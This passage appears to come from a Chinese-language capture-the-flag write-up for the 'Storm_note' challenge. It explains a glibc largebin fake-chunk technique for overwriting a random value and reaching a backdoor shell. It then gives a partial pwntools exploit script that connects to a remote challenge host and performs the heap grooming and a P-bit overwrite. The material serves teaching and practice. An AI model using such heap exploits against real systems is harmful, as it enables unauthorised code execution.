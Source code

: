 指针操作会将0xabcd0100-0x18处修改为0x56，即把0xabcd0100-0x20构造成一个fakechunk。插入到largebin后，glibc根据unsortedbin chunk的bk指针，找到0xabcd0100-0x20，发现其大小为0x56，且ISMMAP位为1，就将其分配出去，于是就获得了包含0xabcd0100的fakechunk。就可以覆盖掉原来的随机数。

### 3 触发后门函数，getshell



## 0x02 EXP


```python
#usr/bin/env python
from pwn import *
REMOTE = 1
if REMOTE:
	p = remote('61.164.47.198',10004)
else:
	p = process('./Storm_note')

DEBUG = 0
VERBOSE = 1
if DEBUG:
	gdb.attach(p)
if VERBOSE:
	context.log_level = 'debug'

def q():
	gdb.attach(p)
	raw_input('test')

def add(size):
	p.recvuntil('Choice')
	p.sendline('1')
	p.recvuntil('?')
	p.sendline(str(size))
  
def edit(idx,mes):
	p.recvuntil('Choice')
	p.sendline('2')
 	p.recvuntil('?')
	p.sendline(str(idx))
	p.recvuntil('Content')
	p.send(mes)

def delete(idx):
	p.recvuntil('Choice')
	p.sendline('3')
 	p.recvuntil('?')
 	p.sendline(str(idx))

def pwn():

	add(0x28)#0
	add(0x528)#1	
	add(0xf8)#2
	add(0x28)#3

	add(0x28)#4
	add(0x518)#5
	add(0xf8)#6
	add(0x28)#7

	delete(0)
	payload = 'a'*0x520 + p64(0x560)
	edit(1,payload)#alter the P bit of chunk2
```